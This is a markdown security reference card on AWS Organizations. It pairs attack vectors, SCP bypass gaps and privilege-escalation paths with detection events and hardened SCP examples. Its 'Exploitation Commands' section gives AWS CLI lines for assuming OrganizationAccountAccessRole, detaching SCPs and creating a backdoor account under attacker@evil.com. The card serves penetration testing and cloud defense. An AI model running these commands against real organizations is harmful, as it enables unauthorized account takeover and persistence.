

#  AWS Organizations Security



> **Category**: MULTI-ACCOUNT

AWS Organizations manages multiple AWS accounts with consolidated billing, SCPs, and centralized governance. Compromising the management account means total control over all member accounts.

## Quick Stats

| Risk Level | Policy Control | Structure | Top Target |
| --- | --- | --- | --- |
| **CRITICAL** | **SCPs** | **OUs** | **Root** |

## Service Overview

### Management Account

The "root" account that created the organization. Has full control over all member accounts, can create/delete accounts, apply SCPs, and access any account via OrganizationAccountAccessRole.

> Critical: SCPs don't apply to management account - it's exempt from all restrictions

### Service Control Policies

SCPs define maximum available permissions for member accounts. They're deny-by-default guardrails that can prevent even root users from performing certain actions.

> Inheritance: SCPs cascade from Root → OUs → Accounts. Most restrictive policy wins.

## Security Risk Assessment

`██████████` **9.5/10** (CRITICAL)

Organizations compromise is the ultimate privilege escalation. Management account access means control over all member accounts, billing, and the ability to bypass all SCPs.

## ⚔️ Attack Vectors

### Management Account Targets

- Compromise management account credentials
- Exploit OrganizationAccountAccessRole
- Social engineer org admin users
- Abuse delegated administrator accounts
- Target shared service accounts

### Cross-Account Attacks

- Role chain through trust relationships
- Abuse resource sharing (RAM)
- Exploit cross-account S3/KMS policies
- Pivot via shared VPCs
- Abuse SSO/Identity Center

## 🔓 SCP Bypass Techniques

### SCP Limitations

- SCPs don't affect management account
- SCPs don't apply to service-linked roles
- SCPs allow global condition key bypass
- Resource-based policies may bypass SCPs
- AWS service actions exempt from SCPs

### Common SCP Gaps

- Missing deny for regions
- Incomplete service coverage
- No protection for sts:AssumeRole
- Allowing wildcard principals
- Missing data exfiltration controls

## 🔍 Enumeration

**Describe Organization**
```bash
aws organizations describe-organization
```

**List All Accounts**
```bash
aws organizations list-accounts
```

**List Organizational Units**
```bash
aws organizations list-roots && aws organizations list-organizational-units-for-parent --parent-id r-xxxx
```

**List SCPs**
```bash
aws organizations list-policies --filter SERVICE_CONTROL_POLICY
```

**Get SCP Content**
```bash
aws organizations describe-policy --policy-id p-xxxxxxxx
```

## 📈 Privilege Escalation

### From Member to Management

- Find role trusting management account
- Exploit misconfigured trust policies
- Abuse delegated admin privileges
- Chain through shared service accounts
- Exploit billing/cost management access

### From Management Account

- AssumeRole to any member account
- Modify/delete SCPs to remove restrictions
- Create new accounts with admin access
- Modify OU structure for policy bypass
- Access all CloudTrail/Config data

> **Key:** OrganizationAccountAccessRole exists in every account created by Organizations - it trusts the management account.

## 🔄 Lateral Movement

### Cross-Account Pivoting

- Role assumption chains
- Shared VPC peering/Transit Gateway
- Cross-account resource policies
- RAM shared resources
- SSO permission sets

### Data Access

- S3 buckets with org condition keys
- KMS keys shared across accounts
- Secrets Manager cross-account access
- CloudWatch Logs cross-account
- Central logging account access

## 🛡️ Detection

### CloudTrail Events

- CreateAccount - new account created
- InviteAccountToOrganization - invite sent
- AttachPolicy/DetachPolicy - SCP changes
- CreatePolicy/UpdatePolicy - SCP modified
- MoveAccount - account moved between OUs

### Indicators of Compromise

- Unusual cross-account role assumptions
- SCP modifications outside change windows
- New accounts created unexpectedly
- OrganizationAccountAccessRole usage
- Delegated admin changes

## Exploitation Commands

**Assume Role to Member Account**
```bash
aws sts assume-role \\
  --role-arn arn:aws:iam::MEMBER_ACCOUNT:role/OrganizationAccountAccessRole \\
  --role-session-name attacker
```

**List All Accounts for Targeting**
```bash
aws organizations list-accounts \\
  --query 'Accounts[*].[Id,Name,Status]' \\
  --output table
```

**Detach SCP to Remove Restrictions**
```bash
aws organizations detach-policy \\
  --policy-id p-xxxxxxxx \\
  --target-id ou-xxxx-xxxxxxxx
```

**Create Backdoor Account**
```bash
aws organizations create-account \\
  --email attacker@evil.com \\
  --account-name "Audit-Backup"
```

**Find Cross-Account Roles**
```bash
# From member account
aws iam list-roles --query 'Roles[?contains(AssumeRolePolicyDocument.Statement[].Principal.AWS, \`arn:aws:iam::MGMT_ACCOUNT\`)]'
```

**Enumerate SCPs on Target**
```bash
aws organizations list-policies-for-target \\
  --target-id ACCOUNT_ID \\
  --filter SERVICE_CONTROL_POLICY
```

## Policy Examples

### ❌ Weak SCP - Only Region Restriction

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": "*",
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "aws:RequestedRegion": ["us-east-1", "us-west-2"]
      }
    }
  }]
}
```

*Only restricts regions - no protection against data exfil, privilege escalation, etc.*

### ✅ Strong SCP - Comprehensive Protection

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyLeavingOrg",
      "Effect": "Deny",
      "Action": ["organizations:LeaveOrganization"],
      "Resource": "*"
    },
    {
      "Sid": "ProtectCloudTrail",
      "Effect": "Deny",
      "Action": ["cloudtrail:DeleteTrail", "cloudtrail:StopLogging"],
      "Resource": "*"
    },
    {
      "Sid": "ProtectGuardDuty",
      "Effect": "Deny",
      "Action": ["guardduty:DeleteDetector"],
      "Resource": "*"
    }
  ]
}
```

*Prevents leaving org, disabling security services - defense in depth*

### ❌ Missing - No Root User Restrictions

```json
# No SCP to restrict root user actions
# Root can still:
# - Create access keys
# - Change account settings
# - Delete resources
# - Disable security controls
```

*SCPs should restrict root user to emergency-only actions*

### ✅ Root User Lockdown SCP

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": "*",
    "Resource": "*",
    "Condition": {
      "StringLike": {
        "aws:PrincipalArn": "arn:aws:iam::*:root"
      }
    }
  }]
}
```

*Denies all root user actions in member accounts - use IAM roles instead*

## Defense Recommendations

### 🔐 Secure Management Account

Minimal workloads, MFA on root, dedicated security controls, separate from daily operations.

### 📋 Layered SCP Strategy

Apply SCPs at multiple levels: Root, OUs, and individual accounts for defense in depth.

### 🚫 Restrict OrganizationAccountAccessRole

Modify or replace the default role with stricter trust policies and conditions.

```bash
# Add condition to trust policy
"Condition": {
  "StringEquals": {
    "aws:PrincipalTag/team": "platform"
  }
}
```

### 📊 Monitor Organization API Calls

Alert on CreateAccount, AttachPolicy, DetachPolicy, MoveAccount events.

### 🏢 Use Delegated Administrators

Delegate service administration to dedicated accounts instead of using management account.

```bash
aws organizations register-delegated-administrator \\
  --account-id 123456789012 \\
  --service-principal guardduty.amazonaws.com
```

### 🔒 Prevent Account Departure

SCP to deny LeaveOrganization prevents accounts from escaping controls.

---

*AWS Organizations Security Card*

*Always obtain proper authorization before testing*
